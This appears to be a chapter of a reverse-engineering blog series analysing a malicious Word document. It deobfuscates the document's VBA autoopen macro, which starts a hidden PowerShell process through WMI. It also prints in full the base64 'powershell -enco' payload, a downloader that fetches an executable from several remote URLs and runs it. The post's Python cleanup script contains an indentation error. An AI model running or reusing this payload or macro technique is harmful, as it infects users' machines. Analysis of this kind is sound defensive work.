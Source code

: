 ```yaml
---
title: Macro analysis
---
```


When I opened doc file in MS Office I saw a page with a picture that informed me about necessity of MS Word activation. What is more the picture was encouraging me to run a macro.

![](img/office_active.png)

Insted of doing this, I opened build-in editor for Visual Basic. (stroke ALT + F11)

![](img/vb_edit.png)

Here I started a macro deobfuscation.
There was a lot of unnecessary lines including comments (beginning with \') or while loops with that code structure:

```c
Heightshcf = "Throughway Jewelery & Shoes generate Frozen rich Cayman Islands Dollar radical Avenue Macao Small"

While Heightshcf = wdXMLValidationStatusOK
Electronics__Clothinghab = CDate(726)
COMwli = protocolwbq
transmittingqon = CDbl(537)
modularumu = 598
SCSIfdw = 260                            
Gorgeouswtk = Atn(Reactiverin)
Wend
```                    

In fact that while loops will never process because the condition is always false so I didn't waste time for analysing that mess. You can easily check it in debugger as I did.

In order to delete all unnecessary I used simple python script:

```python                    
import sys

with open(sys.argv[1], 'r') as fi, open(sys.argv[2], 'w') as fo:
    while_flag = False
    for line in fi:
        if '\'' in line:
            index = line.find('\'')
            line = line[:index]
            if line.replace(' ','') != '':
                line += '\n'
        elif 'While' in line:
            while not ('Wend' in line):
            line = fi.readline()
            line = ""
        elif 'Heightshcf' in line:
            line = ""
        fo.write(line)
```           
                

After initial deobfuscation code looked like that:

```c
Attribute VB_Name = "Avonqtl"
Function Gorgeous_Concrete_Gloveswip()
On Error Resume Next
Set Gorgeous_Concrete_Gloveswip = CreateObject(primarymhj + orangemkj(Ridgetjj.channelsioc + Awesomeiip))
Gorgeous_Concrete_Gloveswip.ShowWindow = wdXMLValidationStatusOK
End Function
Function orangemkj(Administratortqv)
On Error Resume Next
    channelsvou = Administratortqv 
metricsiia = "67" 
orangemkj = Replace(channelsvou, metricsiia, "") 
End Function
Sub autoopen()
On Error Resume Next
Kuwaiti_Dinarzip 
End Sub

Attribute VB_Name = "tf3rdgenerationjiu"
Function Kuwaiti_Dinarzip()
On Error Resume Next
Valleyiti = Burundivdl + "p" + orangemkj(Ridgetjj.Automotive__Healthjwm + Ridgetjj.Music__Babyulz) 
Delawarejjq = Crossgroupnhp
Set Small_Metal_Mousendm = CreateObject(orangemkj(orangemkj(CStr(912051 + 67 - 912051) + "676767winmgmts:676767Win32_Proc6767ess")))
Delawarejjq = Delawarejjq + Small_Metal_Mousendm.Create#(Valleyiti, Covesnhl, Gorgeous_Concrete_Gloveswip, matrixttd)
End Function
```                    

A bit better but there was still a lot to do. I started with autoopen() function, because the macro started execution from there.
During analysing execution flow in debugger I deobfuscated the rest of the code.

Resulted code looked like that:

```c
Attribute VB_Name = "tf3rdgenerationjiu"

Function create_process()
On Error Resume Next
'Automotive__Healthjwm - obfuscated string "owershell"
'Music__Babyulz - encoded PowerShell script
power_shell_command = "p" + remove_string(Ridgetjj.Automotive__Healthjwm + Ridgetjj.Music__Babyulz)
Set win32_object = CreateObject(remove_string("676767winmgmts:676767Win32_Proc6767ess"))
'directory and pid are NULL 
win32_object_process = win32_object.Create#(power_shell_command, directory, win32_process_startup, pid)
End Function

Attribute VB_Name = "Avonqtl"
Function win32_process_startup()
On Error Resume Next
'channelsioc - obfuscated string "winmgmnts:win32_processstartup"
Set win32_process_startup = CreateObject(remove_string(Ridgetjj.channelsioc))
win32_process_startup.ShowWindow = 0
End Function

Function remove_string(str_to_operate)
On Error Resume Next
remove_string = Replace(str_to_operate, "67", "") 
End Function

Sub autoopen()
On Error Resume Next 
create_process 
End Sub
```                    
                
I presented macro execution in following list:

1.  autoopen() function calls create_process
2.  power_shell_command variable is initialized with string created by concatenation of "p" and string returned by remove_string function.
    Argument passed to remove_string is a string which is created by concatenation of two string from OLE object.
3.  remove_string deletes all occurrence of "67" string in passed string.
4.  After all in power_shell_command followed string is placed:
```powershell
    powershell -enco PAAjACAAaAB0AHQAcABzADoALwAvAHcAdwB3AC4AbQBpAGMAcgBvAHMAbwBmAHQA...
```
5.  Next winmgmnts:win32_Process object is created which is used to create and run process.
   
Next I used oledump to gain content of OLE objects

```python
python oledump/oledump.py PL_95054906484_68262954.doc
```              
![](img/oledump.png)                

I assumed that PowerShell script would be in 18th stream (Big stream's size suggested that).

```bash                    
python oledump/oledump.py -s 18 PL_95054906484_68262954.doc > payload.txt
```                    

Then I cut contet which interested me.

```bash                    
cat payload.txt | cut -d '  ' -f20 > payload_cut.txt
```             
                
Additionally I dumped content of 16th and 22th stream.

```bash
python oledump/oledump.py -s 16 PL_95054906484_68262954.doc > process_startup.txt
python oledump/oledump.py -s 22 PL_95054906484_68262954.doc > power_shell.txt
```

That streams contain strings "owershell -enco" or "winmgmts:win32_processstartup".

In order to print all streams you can use that command:

```bash     
seq 12 | awk '{ system("echo stream:  $1+13") system("python oledump/oledump.py PL_95054906484_68262954.doc -s " $+13) system("echo \n") }'
```
                
Encoded payload:

```txt                 
PAAjACAAaAB0AHQAcABzADoALwAvAHcAdwB3AC4AbQBpAGMAcgBvAHMAbwBmAHQALgBjAG8AbQAvACAAIwA+ACAAJABSAGUAZgBpAG4AZQBkAF8AUABsAGEAcwB0AGkAYwB
fAFMAbwBhAHAAegBwAHAAPQAnAEIAbwByAGQAZQByAHMAbwBkAGkAJwA7ACQAcgBlAGEAbAB0AGkAbQBlAHYAZgBiACAAPQAgACcAMQAyADYAJwA7ACQAaQBuAHYAbwBpA
MAZQBvAGEAagA9ACcAZgByAGEAbQBlAHIAbABqACcAOwAkAG0AaQBkAGQAbABlAHcAYQByAGUAbAB0AGsAPQAkAGUAbgB2ADoAdQBzAGUAcgBwAHIAbwBmAGkAbABlACsAJ
wBcACcAKwAkAHIAZQBhAGwAdABpAG0AZQB2AGYAYgArACcALgBlAHgAZQAnADsAJABiAGEAYwBrAF8AdQBwAGoAdgBpAD0AJwBCAGUAcgBrAHMAaABpAHIAZQBrAHcAegAn
ADsAJABQAGwAYQB6AGEAawBwAGkAPQAuACgAJwBuAGUAdwAtACcAKwAnAG8AYgAnACsAJwBqAGUAYwB0ACcAKQAgAE4ARQB0AC4AVwBlAGIAQwBMAGkAZQBOAFQAOwAkAEQ
AeQBuAGEAbQBpAGMAcQBtAGIAPQAnAGgAdAB0AHAAOgAvAC8AdwB3AHcALgBwAGkAZQBjAGUAbwBmAHAAYQBzAHMAaQBvAG4ALgBuAGUAdAAvADAAeAByAG4AbAAzAC8AYQ
AyADcAeABtADkAOQBmAGcAZABfAG8AbgA3AHgAcAAtADMAMQAxADMANAAxADgAOQAvAEAAaAB0AHQAcAA6AC8ALwB3AHcAdwAuAG0AYQByAGsAZQB0AGYAeABlAGwAaQB0AG
UALgBjAG8AbQAvAHcAcAAtAGEAZABtAGkAbgAvAHUAbgBuAEoAdABDAEgAawAvAEAAaAB0AHQAcABzADoALwAvAHQAYQBuAGEAbgBmAG8AbwBkAC4AYwBvAG0ALwB3AHAALQB
pAG4AYwBsAHUAZABlAHMALwB5AG8AYwBsAHcAeQBXAEUALwBAAGgAdAB0AHAAOgAvAC8AcgBhAGkAcwBhAGIAbwBvAGsALgBjAG8AbQAvAHcAcAAtAGMAbwBuAHQAZQBuAHQAL
wBOAGoAQgB0AHUAeABCAHoAawBEAC8AQABoAHQAdABwADoALwAvAGIAaQBzAHcAYQBsAGYAbwBvAGQAYwBpAHIAYwBsAGUALgBjAG8AbQAvAHYAYwBvAGIAaABsAG8AbgBzAC8
AawBhAGYANgBqAF8ANwAxAHcAegBrAGcAdgBxAHMAbwAtADgALwAnAC4AIgBzAFAAYABMAGkAdAAiACgAJwBAACcAKQA7ACQAQwBsAHUAYgBvAG0AYgA9ACcARQBzAHQAYQB0A
GUAcwB3AGoAcwAnADsAZgBvAHIAZQBhAGMAaAAoACQATQB1AHMAaQBjAF8AXwBHAGEAbQBlAHMAcABtAHUAIABpAG4AIAAkAEQAeQBuAGEAbQBpAGMAcQBtAGIAKQB7AHQAcgB5
AHsAJABQAGwAYQB6AGEAawBwAGkALgAiAGQATwBgAHcATgBgAGwATwBhAGAAZABmAGkATABFACIAKAAkAE0AdQBzAGkAYwBfAF8ARwBhAG0AZQBzAHAAbQB1ACwAIAAkAG0AaQB
kAGQAbABlAHcAYQByAGUAbAB0AGsAKQA7ACQAQQBwAHAAbABpAGMAYQB0AGkAbwBuAHMAaQBxAHIAPQAnAEcAcgBvAGMAZQByAHkAdABpAHcAJwA7AEkAZgAgACgAKAAmACgAJwB
HAGUAdAAnACsAJwAtAEkAJwArACcAdABlAG0AJwApACAAJABtAGkAZABkAGwAZQB3AGEAcgBlAGwAdABrACkALgAiAEwARQBgAE4AZwBUAGgAIgAgAC0AZwBlACAAMwA1ADYAMAA5
ACkAIAB7AFsARABpAGEAZwBuAG8AcwB0AGkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgAiAHMAYABUAEEAUgB0ACIAKAAkAG0AaQBkAGQAbABlAHcAYQByAGUAbAB0AGsAKQA7ACQ
AdAByAGEAbgBzAGYAbwByAG0AdgBkAHAAPQAnAEIAZQBkAGYAbwByAGQAcwBoAGkAcgBlAGoAdwBjACcAOwBiAHIAZQBhAGsAOwAkAEMAbwBuAGMAcgBlAHQAZQBpAGoAYQA9ACcAcg
BlAGQAdQBuAGQAYQBuAHQAdwB3AGkAJwB9AH0AYwBhAHQAYwBoAHsAfQB9ACQAbQBvAHIAcABoAHQAcQBiAD0AJwBHAG8AcgBnAGUAbwB1AHMAXwBGAHIAZQBzAGgAXwBIAGEAdABpAH
EAYgAnAA==       
```      

#### Table of content:

1.  [Environment configuration](/blog/first-steps-in-re/environment-configuration)
2.  [Initial analysis](/blog/first-steps-in-re/initial-analysis)
3.  [Macro analysis](/blog/first-steps-in-re/macro-analysis)
4.  [Dropper analysis](/blog/first-steps-in-re/dropper-analysis)
5.  [Detonation](/blog/first-steps-in-re/detonation)
7.  [Domain analysis](/blog/first-steps-in-re/domain-analysis)
8.  [Detonation ver. 2](/blog/first-steps-in-re/detonation-v2)
9.  [Summary](/blog/first-steps-in-re/summary)
